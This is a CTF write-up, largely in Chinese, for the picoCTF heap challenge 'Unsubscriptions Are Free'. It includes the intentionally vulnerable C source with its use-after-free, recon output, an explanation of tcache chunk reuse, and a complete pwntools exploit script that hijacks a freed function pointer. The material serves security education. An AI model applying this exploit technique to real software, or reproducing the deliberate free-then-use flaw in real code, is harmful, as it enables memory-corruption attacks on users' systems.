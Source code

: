 # PicoCTF - Unsubscriptions Are Free
## Background
Heap Exploitation / Used After Free
## Source code
:::spoiler Source Code
```cpp
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>

#define FLAG_BUFFER 200
#define LINE_BUFFER_SIZE 20


typedef struct {
	uintptr_t (*whatToDo)();
	char *username;
} cmd;

char choice;
cmd *user;

void hahaexploitgobrrr(){
 	char buf[FLAG_BUFFER];
 	FILE *f = fopen("flag.txt","r");
 	fgets(buf,FLAG_BUFFER,f);
 	fprintf(stdout,"%s\n",buf);
 	fflush(stdout);
}

char * getsline(void) {
	getchar();
	char * line = malloc(100), * linep = line;
	size_t lenmax = 100, len = lenmax;
	int c;
	if(line == NULL)
		return NULL;
	for(;;) {
		c = fgetc(stdin);
		if(c == EOF)
			break;
		if(--len == 0) {
			len = lenmax;
			char * linen = realloc(linep, lenmax *= 2);

			if(linen == NULL) {
				free(linep);
				return NULL;
			}
			line = linen + (line - linep);
			linep = linen;
		}

		if((*line++ = c) == '\n')
			break;
	}
	*line = '\0';
	return linep;
}

void doProcess(cmd* obj) {
	(*obj->whatToDo)();
}

void s(){
 	printf("OOP! Memory leak...%p\n",hahaexploitgobrrr);
 	puts("Thanks for subsribing! I really recommend becoming a premium member!");
}

void p(){
  	puts("Membership pending... (There's also a super-subscription you can also get for twice the price!)");
}

void m(){
	puts("Account created.");
}

void leaveMessage(){
	puts("I only read premium member messages but you can ");
	puts("try anyways:");
	char* msg = (char*)malloc(8);
	read(0, msg, 8);
}

void i(){
	char response;
  	puts("You're leaving already(Y/N)?");
	scanf(" %c", &response);
	if(toupper(response)=='Y'){
		puts("Bye!");
		free(user);
	}else{
		puts("Ok. Get premium membership please!");
	}
}

void printMenu(){
 	puts("Welcome to my stream! ^W^");
 	puts("==========================");
 	puts("(S)ubscribe to my channel");
 	puts("(I)nquire about account deletion");
 	puts("(M)ake an Twixer account");
 	puts("(P)ay for premium membership");
	puts("(l)eave a message(with or without logging in)");
	puts("(e)xit");
}

void processInput(){
  scanf(" %c", &choice);
  choice = toupper(choice);
  switch(choice){
	case 'S':
	if(user){
 		user->whatToDo = (void*)s;
	}else{
		puts("Not logged in!");
	}
	break;
	case 'P':
	user->whatToDo = (void*)p;
	break;
	case 'I':
 	user->whatToDo = (void*)i;
	break;
	case 'M':
 	user->whatToDo = (void*)m;
	puts("===========================");
	puts("Registration: Welcome to Twixer!");
	puts("Enter your username: ");
	user->username = getsline();
	break;
   case 'L':
	leaveMessage();
	break;
	case 'E':
	exit(0);
	default:
	puts("Invalid option!");
	exit(1);
	  break;
  }
}

int main(){
	setbuf(stdout, NULL);
	user = (cmd *)malloc(sizeof(user));
	while(1){
		printMenu();
		processInput();
		//if(user){
			doProcess(user);
		//}
	}
	return 0;
}

```
:::
## Recon
這題該怎麼說呢，有點像是被設計好的問題
1. 首先觀察整體的file
    ```bash
    $ file vuln
    vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=89699d062dc4f47448ba7c5c03105267c060ce30, not stripped
    $ checksec vuln
    [*] '/mnt/d/NTU/CTF/PicoCTF/PWN/Unsubscriptions Are Free/vuln'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    ```
    保護機制雖然沒有全開，不過應該是一個heap題
2. source code有一個`hahaexploitgobrrr` function，是print出flag的function所以我們的目標很明確，就是要想辦法踩到這個function，而`s()`/`p()`/`m()`都是無用的資訊
3. 遇到這種heap的題目，我會先看哪裡有malloc和free，確保幾個簡單的exploitation的可能性，例如uaf或double free之類的，而i function有一個free，是要註銷帳號的功能，但是main function中的`doProcess(user);`卻持續使用user這個變數，所以這個就是一個典型的UAF漏洞(我也是看了別人的WP[^uaf_wp_martin][^uaf_wp_Dvd848]後才知道他的題目已經有提示了，一開始是我想的太複雜了)，試想如果一開始我先輸入`i`，讓程式`free(user)`，接著他就會執行`doProcess(user)`也就是user指向的function pointer，如果我們可以拿到被free掉的user這個chunk然後輸入`hahaexploitgobrrr`這個function的address，那我們就可以拿到flag了
4. 所以重點來了，要怎麼拿到被free掉的chunk呢?這個程式==也很好心的==幫我們實作了`leaveMessage`這個function，他會malloc 8 bytes，其實就剛好是user的大小，所以如果要拿8 bytes的chunk他會先到Tcache搜尋，然後給我們寫一些資訊，此時我們就可以寫上`hahaexploitgobrrr`這個function的address(address的資訊可以透過`s` function得知)
5. 綜合以上資訊可以開寫script

## Exploit
```python
from pwn import *

r = process('./vuln')
# r = remote('mercury.picoctf.net', 61817)

r.recvuntil(b'(e)xit\n')
r.sendline(b'i')
r.recvuntil(b"You're leaving already(Y/N)?\n")
r.sendline(b'Y')

r.recvuntil(b'(e)xit\n')
r.sendline(b's')
r.recvuntil(b'OOP! Memory leak...0x')
hahaexploitgobrrr_addr = int(str(r.recv(7))[2:-1], 16)
success(hahaexploitgobrrr_addr)

r.recvuntil(b'(e)xit\n')
r.sendline(b'l')
r.recvuntil(b'try anyways:\n')
raw_input()
r.sendline(p64(hahaexploitgobrrr_addr))

success(f'Flag: {r.recvline().strip().decode()}')

r.close()
```
## Reference
[^uaf_wp_martin]:[ picoCTF 2021 Unsubscriptions Are Free ](https://youtu.be/ffJRcNEyApI)
[^uaf_wp_Dvd848]:[Unsubscriptions Are Free WP](https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Unsubscriptions_Are_Free.md)